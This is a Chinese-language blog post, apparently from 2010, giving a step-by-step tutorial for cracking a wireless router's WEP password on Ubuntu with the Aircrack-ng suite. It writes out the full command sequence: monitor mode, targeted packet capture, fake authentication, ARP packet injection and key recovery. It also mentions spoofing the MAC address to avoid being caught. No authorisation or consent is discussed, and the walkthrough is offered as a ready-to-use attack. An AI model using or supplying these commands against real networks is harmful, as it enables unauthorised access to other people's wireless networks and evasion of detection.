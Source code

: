 ```yaml
---
    author: admin
    comments: true
    date: 2010-06-14 03:06:56
    layout: post
    title: ubuntu10.04 下使用Aircrack-ng破解无线路由AP密码
    wordpress_id: 617
    categories:
- ubuntu
- 问题解决
---
```


一:工具介绍

无线路由破解工具 Aircrack-ng ，官方网站_[http://www.aircrack-ng](http://www.aircrack-ng/)[ .org](http://www.aircrack-ng .org)_

Aircrack-ng工具包有很多工具，工具主要有以下几个：

    airmon-ng 处理网卡工作模式  

    airodump-ng 抓包  

    aircrack-ng 破解  

    aireplay-ng 发包，干扰  

每个工具的具体参数选项就不一一介绍了,详情请参考原作者:[here](http://blog.csdn.net/MHY_MHY/archive/2008/11/07/3244543.aspx)

其他必须的linux命令

    ifconfig 查看网卡状态及参数

    macchanger 伪造 MAC  

    iwconfig 主要针对无线网卡的工具 (同 ifconfig)  

    iwlist 获取无线网络的更详细信息

二: 前期准备

安装工具包: 

    sudo apt-get install aircrack-ng

确保自己的无线网卡已经打开

    ifconfig 显示无线网卡的MAC地址,记下以便日后使用

三:大致步骤描述

1. 修改无线网卡状态：先 down 掉
2. 伪造无线网卡的 MAC 地址：安全起见，减少被抓到的可能
3. 修改网卡工作模式：进入Monitor状态，会产生一个虚拟的网卡
4. 修改无线网卡状态： up
5. 查看网络状态，记录下 AP 的 MAC 和本机的 MAC ，确定攻击目标
6. 监听抓包：生成 .cap 或 .ivs
7. 干扰无线网络：截取无线数据包，发送垃圾数据包，用来获得更多的有效数据包
8. 破解 .cap 或 .ivs ，获得 WEP 密码，完成破解

改变MAC地址请参考:[here](http://www.path8.net/tn/archives/40)

四:具体实践操作

1将无线网卡down掉

    sudo ifconfig wlan0 down 

2 鉴于是实验,也就是折腾,不打算很邪恶,就没有做三.2这一步,这样以来第一步没有多大必要

3启动无线 网卡 的监控模式

    sudo airmon-ng start wlan0 

4查看采用wep 加密的在线AP,ctrl+c退出,保留此终端

    sudo airodump-ng mon0 

5 打开另一个终端,输入以下命令.c后面的6为AP工作频道,替换为要破解的AP相应的工作频道即可.--bissid后面的AP's MAC 是要欲破解AP的MAC地址,也做相应替换,-w后的wep的是抓下来的数据包DATA 保存的文件名(可以随便取名)，然后回车开始抓包

    sudo airodump-ng -c 6 --bssid AP's MAC -w wep mon0 

6 再另开一个终端，输入以下命令.ESSID替换为要破解的AP相应的ESSID,AP's MAC也做相应的替换,My MAC是自己的无线网卡的地址.此步骤用来AP建立虚拟连接.

    sudo aireplay-ng -1 0 -e ESSID -a AP's MAC -h My MAC mon0

7 再打开一个终端,输入以下命令.在6步骤建立虚拟连接成功后,进行注入.同理AP's MAC和My MAC也应该做相应的替换.现在步骤3中数据包应该不断增长。

    sudo aireplay-ng -2 -F -p 0841 -c ff:ff:ff:ff:ff:ff -b AP's MAC -h My MAC mon0

8收集有5000个以上的DATA之后,另开一个终端 ,输入以下命令.进行解密(如果没算出来的话，继续等，Ubuntu aircrack-ng会在DATA每增加多5000个之后就自动再运行 ，直到算出密码为至)

    sudo aircrack-ng wep*.cap

9 如果没有出现意外，你应该会很高兴的看到KEY FOUND!破解出密码后在终端中输入 sudo airmon-ng stop mon0 关闭监控模式，不然无线网卡会一直向刚刚的AP进行注入的，用ctrl+c退出或者直接关闭终端都是不行的，除非重新启动电脑。

参考帖子: [http://hi.baidu.com/jasey_wang/blog/item/a48a4bb6b3322df931add1cc.html](http://hi.baidu.com/jasey_wang/blog/item/a48a4bb6b3322df931add1cc.html)

原帖:[http://blog.csdn.net/MHY_MHY/archive/2008/11/07/3244543.aspx](http://blog.csdn.net/MHY_MHY/archive/2008/11/07/3244543.aspx) 

引用请注明作者和来源,鄙视抄袭冒充。本文原创（技术说明文档由本人参照英文原文翻译）,作者:MHY_MHY, email:mayc66@gmail.com,欢迎指出错误.最初发表在 [http://blog.csdn.net/mhy_mhy](http://blog.csdn.net/mhy_mhy) ,最后修改17:00 2008/11/6。

